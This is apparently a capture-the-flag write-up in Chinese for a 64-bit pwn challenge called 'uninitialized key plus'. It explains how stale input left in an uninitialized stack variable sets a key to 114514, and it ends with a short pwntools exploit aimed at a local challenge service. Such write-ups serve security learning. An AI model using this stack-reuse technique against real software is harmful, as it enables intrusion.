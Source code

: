 ```yaml
---
title: uninitialized key plus
date: 2023/9/23 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`uninitialized_key_plus`, 保护全开  
ghidra分析为64位程序

## 解题思路

和上次一样，使得栈上变量key==114514即可  
使用gdb发送'111122223333444455556666'进行探测（共读入24B），
发现输入无意义字符后key上留下来的值是`'6666'`，故填充前面段，将6666设为114514即可

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 41675)
sh.sendline(b'0'*20 + p32(114514))
sh.sendline(b'asdfasdf')
sh.interactive()
```

Done.
